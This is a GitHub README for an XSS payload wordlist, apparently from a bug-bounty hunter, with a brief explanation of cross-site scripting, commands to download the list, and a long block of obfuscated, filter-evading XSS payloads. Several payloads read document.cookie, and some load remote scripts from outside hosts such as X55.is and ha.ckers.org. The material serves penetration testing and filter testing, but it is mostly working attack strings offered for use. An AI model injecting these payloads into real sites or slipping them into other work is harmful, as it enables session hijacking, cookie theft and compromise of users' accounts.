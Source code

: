 <h1 align="center"><i>「💉」XSS Payload List.</i></h1>

<p align="center"><img src="xss.png"></p>

<h3 align="left"><i>What is cross-site scripting (XSS)?</i></h3>

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

<h3 align="left"><i>How does XSS work?</i></h3>

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.

<h3 align="left"><i>Install our wordlist.</i></h3>

<h6 align="left"><i>First option :</i></h6>

```
* mkdir /usr/share/wordlists/alif
* mkdir /usr/share/wordlists/alif/xss
* wget https://raw.githubusercontent.com/Xcod3bughunt3r/XSS-Payload/main/xss-payloads-by-ALIFFUSOBAR.txt -O /usr/share/wordlists/alif/xss/ALIFFUSOBAR.txt
```

<h6 align="left"><i>Second option :</i></h6>

```
* mkdir /usr/share/wordlists/alif
* git clone https://github.com/Xcod3bughunt3r/XSS-Payload /usr/share/wordlists/alif/xss
```

<h3 align="left"><i>Payloads List :</i></h3>

```
<fieldset//%00//onsite OnMoUsEoVeR=\u0061\u006C\u0065\u0072\u0074`1`>
javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie
<svg on=x// //onload=\u0065\u0076\u0061\u006C("alert`/AmoloHT/`")>
<body//%09%09////.//onmousemove='&#112;&#114;&#111;&#109;&#112;&#116;&lpar;&quot;&#65;&#109;&#111;&#108;&#111;&#72;&#84;&quot;&rpar;'//>
x"//oNeRrOr=`/AmoloHT/`
""onerror=javascript:alert('AmoloHT')
"><u>XSS By AmoloHT</u><marquee+onstart='alert(document.cookie)'>XSS
<noscript><p title="</noscript><img src=x  onerror=alert(/AmoloHT/)>">
<svg onload=alert%26%230000000040"1")>
<Svg/Onload=top%5B"al"%2B"ert%5D(1)//
<Svg Id=JavaScrip OnLoad=location=id+'t:/*'+URL>
<svg><set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b>
<svg><set onbegin=d=document,b=/`/.source,d[/loca/.source+/tion/.source]=/javascript&colon;aler/.source+/t/.source+b+domain+b>
`/alert?.(1)'"><Svg/OnLoad='`
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
<var onmouseover="prompt(1)">On Mouse Over</var>
<a/href="/alert(/AmoloHT/)/">
<a href=//X55.is autofocus onfocus=import(href)>
<a href=javascript:'\74svg/onload\75alert\501\51\76'>
<a href="javas%09cript:[1].map(top['ale'+'rt'])">
<a href="/*">*/)});function+__MobileAppList(){alert(/AmoloHT/)}//>
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnQW1vbG9IVCAnKTwvc2NyaXB0Pg==)
<Img Src="//X55.is/> "OnError=import(src)//
<Img Src="javascript:alert(/AmoloHT/)> 1"OnError=location=src//
javascript:&#37&#54&#49lert(/AmoloHT/)
javascript:%26%2337%26%2354%26%2349lert(/AmoloHT/)
JavaScript%26%2358confirm(1)
JavaScript%26%2358AB:confirm(1)
JavaScript%26%2358%0Bconfirm(1)
JavaScript%26%2358$;confirm(1)
JavaScript%26%2358$?confirm(1):0
Set.constructor('ale'+'rt(13)')();
<script>alert(/AmoloHT/)</script>
'><ScripT>alert(/AmoloHT/)</SCripT>
<svg><desc><![CDATA[</desc><script>alert(/AmoloHT/)</script>]]></svg>
JavaScript%26%2358top?confirm(1):0
JavaScript://%250Aalert?.(1)//
<Tag OnEvent="alert/*>*/(1)"
<Svg OnLoad=confirm(1)>%C0%BCSvg%C0%A0OnLoad%C0%BDconfirm%C0%A81%C0%A9%C0%BE
<Svg OnLoad=import('//X55.is')>%C0%BCSvg%C0%A0OnLoad%C0%BDimport%C0%A8%C0%A7%C0%AF%C0%http://AFX55.is%C0%A7%C0%A9%C0%BE
function/**/Date(){alert(/AmoloHT/)}
function/**/RegExp(){alert(/AmoloHT/)}
/*-/*`/*\`/*'/*"/**/(/**/oNclick=alert())//%0D%0A%0D%0a//</style/</title/</textarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-
%2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
+ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi-
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
%253cscript%253ealert(document.cookie)%253c/script%253e
“><s”%2b”cript>alert(document.cookie)</script>
“><ScRiPt>alert(document.cookie)</script>
“><<script>alert(document.cookie);//<</script>
foo<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E
<IMG STYLE="xss:expr/*XSS*/ession(alert('AmoloHT'))">
<XSS STYLE="xss:expression(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("AmoloHT"))'>
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('AmoloHT');\")";eval(a+b+c+d+e);
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;"></BODY></HTML>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<form id="test" /><button form="test" formaction="javascript:alert(/AmoloHT/23)">TESTHTML5FORMACTION
<form><button formaction="javascript:alert(/AmoloHT/23)">crosssitespt
<frameset onload=alert(/AmoloHT/23)>
<!--<img src="--><img src=x onerror=alert(/AmoloHT/23)//">
<style><img src="</style><img src=x onerror=alert(/AmoloHT/23)//">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="javascript:alert(/AmoloHT/)">
javascript:alert%281%29;
<w contenteditable id=x onfocus=alert()>
alert;pg("AmoloHT")
<svg/onload=%26%23097lert%26lpar;1337)>
<script>for((i)in(self))eval(i)(1)</script>
<scr<script>ipt>alert(/AmoloHT/)</scr</script>ipt><scr<script>ipt>alert(/AmoloHT/)</scr</script>ipt>
<sCR<script>iPt>alert(/AmoloHT/)</SCr</script>IPt>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">test</a>
%253Cscript%253Ealert('AmoloHT')%253C%252Fscript%253E
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/') </script
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<form><iframe &#09;&#10;&#11; src="javascript&#58;alert(/AmoloHT/)"&#11;&#10;&#09;;>
<a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a
http://www.google<script .com>alert(document.location)</script
\x3Cscript>javascript:alert(/AmoloHT/)</script>
'"`><script>/* *\x2Fjavascript:alert(/AmoloHT/)// */</script>
<script>javascript:alert(/AmoloHT/)</script\x0D
<script>javascript:alert(/AmoloHT/)</script\x0A
<script>javascript:alert(/AmoloHT/)</script\x0B
<script charset="\x22>javascript:alert(/AmoloHT/)</script>
<script>javascript:alert(/AmoloHT/)<\x00/script>
<img src=# onerror\x3D"javascript:alert(/AmoloHT/)" >
<input onfocus=javascript:alert(/AmoloHT/) autofocus>
<input onblur=javascript:alert(/AmoloHT/) autofocus><input autofocus>
<video poster=javascript:javascript:alert(/AmoloHT/)//
<body onscroll=javascript:alert(/AmoloHT/)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
<form id=test onforminput=javascript:alert(/AmoloHT/)><input></form><button form=test onformchange=javascript:alert(/AmoloHT/)>X
<video><source onerror="javascript:javascript:alert(/AmoloHT/)">
<video onerror="javascript:javascript:alert(/AmoloHT/)"><source>
<form><button formaction="javascript:javascript:alert(/AmoloHT/)">X
<body oninput=javascript:alert(/AmoloHT/)><input autofocus>
<math href="javascript:javascript:alert(/AmoloHT/)">CLICKME</math>  <math> <maction actiontype="statusline#http://google.com" xlink:href="javascript:javascript:alert(/AmoloHT/)">CLICKME</maction> </math>
<frameset onload=javascript:alert(/AmoloHT/)>
<table background="javascript:javascript:alert(/AmoloHT/)">
<!--<img src="--><img src=x onerror=javascript:alert(/AmoloHT/)//">
<comment><img src="</comment><img src=x onerror=javascript:alert(/AmoloHT/))//">
<![><img src="]><img src=x onerror=javascript:alert(/AmoloHT/)//">
<style><img src="</style><img src=x onerror=javascript:alert(/AmoloHT/)//">
<li style=list-style:url() onerror=javascript:alert(/AmoloHT/)> <div style=content:url(data:image/svg+xml,%%3Csvg/%%3E);visibility:hidden onload=javascript:alert(/AmoloHT/)></div>
<head><base href="javascript://"></head><body><a href="/. /,javascript:alert(/AmoloHT/)//#">XXX</a></body>
<SCRIPT FOR=document EVENT=onreadystatechange>javascript:alert(/AmoloHT/)</SCRIPT>
<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
<script /**/>/**/alert(/AmoloHT/)/**/</script /**/
&#34;&#62;<h1/onmouseover='\u0061lert(/AmoloHT/)'>
<iframe/src="data:text/html,<svg &#111;&#110;load=alert(/AmoloHT/)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(/AmoloHT/)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X
</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<form><iframe &#09;&#10;&#11; src="javascript&#58;alert(/AmoloHT/)"&#11;&#10;&#09;;>
<a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a
http://www.google<script .com>alert(document.location)</script
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
```

****

<h1 align="left"><i>Follow Me :</i></h1>

* [HackerOne](https://hackerone.com/xcod3bughunt3r)
* [LinkedIn](https://www.linkedin.com/in/xcod3bughunt3r)
* [Quora](https://id.quora.com/profile/ALIF-FUSOBAR?ch=10&oid=1837835981&share=f20a095b&srid=hk8GQ9&target_type=user)
* [Telegram](https://t.me/xcod3bughunt3r)
* [Twitter](https://mobile.twitter.com/Xcod3bughunt3r)
* [Instagram](https://www.instagram.com/xcod3bughunt3r)
* [Facebook](https://www.facebook.com/profile.php?id=100082527189835)
* [TikTok](https://tiktok.com/xcod3bughunt3r)
* [YouTube](https://www.youtube.com/channel/UCDRFcjutewkhAioAuqTB5wg)
* [TryHackMe](https://tryhackme.com/p/Xcod3bughunt3r)
* [IT People](https://t.me/itpeopleindonesia)

